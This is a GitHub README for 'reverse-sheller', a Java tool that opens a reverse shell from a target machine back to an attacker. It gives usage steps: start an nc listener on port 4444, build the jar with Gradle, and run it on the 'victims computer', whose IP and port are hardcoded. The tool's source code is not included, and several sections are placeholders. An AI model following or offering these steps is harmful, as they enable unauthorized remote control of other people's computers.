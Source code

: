 # reverse-sheller

Build and execute this .jar on target machine with JDK11 or above to get a reverse shell from your host.

![Reverse shell terminal picture](imgs/reverse-shell-picture.jpg)

## Usage 💡

1) Open server waiting for client connection. From this terminal you will be able to execute reverse shell commands:
```bash
nc -lvnp 4444
```

2) Build `.jar` using:
```bash
./gradlew build
```

3) Grab the `.jar` from `./build/libs` and execute it on the victims computer using: 
```bash
java -jar <filename.jar>
```

(Requirement: JDK8 or higher need 
to be installed on victims computer, and JAVA_HOME variable needs to be pointing to working JDK instance)

## About 💁📙

The IP and port is currently hardcoded.
...
...

## TODO 📝

Things that need to be done:
1) ...
2) ...
3) ...
...


![README ending picture](imgs/readme-ending-picture.jpg)

## Author 👷

Drop me a line at: rojberr@outlook.com 